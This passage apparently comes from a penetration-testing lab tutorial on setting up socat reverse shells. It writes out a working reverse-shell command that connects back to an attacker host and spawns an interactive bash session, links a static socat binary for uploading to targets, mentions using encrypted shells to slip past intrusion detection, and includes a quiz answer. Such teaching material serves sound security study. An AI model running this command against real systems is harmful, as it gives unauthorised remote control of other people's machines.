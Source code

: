 The first listener can be connected to with any payload; however, this special listener must be activated with a very specific socat command. This means that the target must have socat installed. Most machines do not have socat installed by default, however, it's possible to upload a [precompiled socat binary](https://github.com/andrew-d/static-binaries/blob/master/binaries/linux/x86_64/socat?raw=true), which can then be executed as normal.

The special command is as follows:

`socat TCP:<attacker-ip>:<attacker-port> EXEC:"bash -li",pty,stderr,sigint,setsid,sane`

This is a handful, so let's break it down.

The first part is easy -- we're linking up with the listener running on our own machine. The second part of the command creates an interactive bash session with  `EXEC:"bash -li"`. We're also passing the arguments: pty, stderr, sigint, setsid and sane:

* **pty**, allocates a pseudoterminal on the target -- part of the stabilisation process
    
* **stderr**, makes sure that any error messages get shown in the shell (often a problem with non-interactive shells)
    
* **sigint**, passes any Ctrl + C commands through into the sub-process, allowing us to kill commands inside the shell
    
* **setsid**, creates the process in a new session
    
* **sane**, stabilises the terminal, attempting to "normalise" it.
    

That's a lot to take in, so let's see it in action.

As normal, on the left we have a listener running on our local attacking machine, on the right we have a simulation of a compromised target, running with a non-interactive shell. Using the non-interactive netcat shell, we execute the special socat command, and receive a fully interactive bash shell on the socat listener to the left:

![](https://i.imgur.com/etAuYzz.png align="left")

Note that the socat shell is fully interactive, allowing us to use interactive commands such as SSH. This can then be further improved by setting the stty values as seen in the previous task, which will let us use text editors such as Vim or Nano.

---

If, at any point, a socat shell is not working correctly, it's well worth increasing the verbosity by adding `-d -d` into the command. This is very useful for experimental purposes, but is not usually necessary for general use.

### Answer the questions below

1. How would we get socat to listen on TCP port 8080? `TCP-L:8080`
    

## Socat Encrypted Shells

One of the many great things about socat is that it's capable of creating encrypted shells -- both bind and reverse. Why would we want to do this? Encrypted shells cannot be spied on unless you have the decryption key, and are often able to bypass an IDS as a result.
